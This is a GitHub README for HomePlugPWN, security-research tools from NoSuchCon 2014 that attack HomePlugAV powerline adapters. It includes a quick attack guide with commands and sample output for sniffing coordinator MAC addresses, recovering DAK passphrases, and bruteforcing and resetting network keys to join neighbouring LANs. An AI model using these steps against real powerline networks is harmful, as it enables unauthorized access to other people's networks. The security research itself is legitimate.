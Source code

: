 HomePlugPWN
===========

HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1\_03\_Sebastien\_Dudek\_HomePlugAV\_PLC.pdf

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities

